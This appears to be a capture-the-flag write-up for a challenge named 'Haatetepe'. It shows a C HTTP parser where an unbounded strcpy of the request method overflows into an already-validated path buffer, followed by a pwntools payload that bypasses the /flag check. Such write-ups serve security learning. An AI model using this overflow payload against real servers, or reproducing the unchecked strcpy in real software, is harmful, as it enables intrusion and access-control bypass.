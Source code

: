 # Haatetepe

Vulnerable function
```c
int parse_request(http_request_header_t *req, char *buf) {
char version_str[16];
  char method_str[16];
  char path[256];
  char *header[3];
  char *token;
  char *saveptr;
  int i = 0;

  token = strtok_r(buf, " \r\n", &saveptr);
  while (token != NULL && i < 3) {
    header[i++] = token;
    token = strtok_r(NULL, " \r\n", &saveptr);
  }

  if (i != 3) {
    return -1;
  }

  strncpy(version_str, header[2], sizeof(version_str) - 1);
  strncpy(path, header[1], sizeof(req->path) - 1);

  /* don't even think about it */
  if (strcmp(path, "/flag") == 0) {
    return -1;
  }

  strcpy(method_str, header[0]);  // buffer overflow
  req->method = parse_method(method_str);
  strcpy(req->path, path); // no overflow

  if (sscanf(version_str, "HTTP/%d.%d", &req->http_major, &req->http_minor) != 2) {
    return -1;
  }

  return 0;
}


enum request_method parse_method(const char *method) {
  if (strncmp(method, "GET", 3) == 0)
    return GET;
  if (strncmp(method, "HEAD", 4) == 0)
    return HEAD;
  return UNKNOWN;
}
```


Time of check / Time of use 

Notice the strcpy(method_str, header[0]); is not a strncpy with a maximum length. The "method" field in the incoming request is not length-capped at the strtok_r nor the strcpy, so a long method-string (HTTP verb) will be copied blindly into method_str, potentially overflowing into the path string, notably after it has been validated to not be /flag

strncmp(method, "GET", 3) in parse_method() ignores everything after "GET", so you can append other stuff and still match the correct method.


Payload

```python
path = b"/"
version_str = b"HTTP/1.1"
method = b"GET"  + cyclic(13) + b"/flag"
payload = flat(
    method, b" ",
    path, b" ",
    version_str
)  
```